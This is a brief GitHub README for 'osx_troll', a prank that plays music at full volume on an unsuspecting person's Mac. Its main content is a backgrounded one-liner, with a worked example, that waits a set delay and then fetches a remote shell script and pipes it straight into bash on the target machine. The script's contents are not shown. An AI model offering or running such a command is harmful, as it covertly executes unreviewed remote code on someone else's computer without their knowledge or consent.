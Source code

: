 # osx_troll

Plays Music at full volume on a unsuspecting mac

sh -c "sleep (REPLACE ME WITH DELAY IN SECONDS); curl -s -L https://raw.githubusercontent.com/Me1955/osx_troll/main/run.sh | bash &" &

e.g. 
sh -c "sleep 10; curl -s -L https://raw.githubusercontent.com/Me1955/osx_troll/main/run.sh | bash &" &
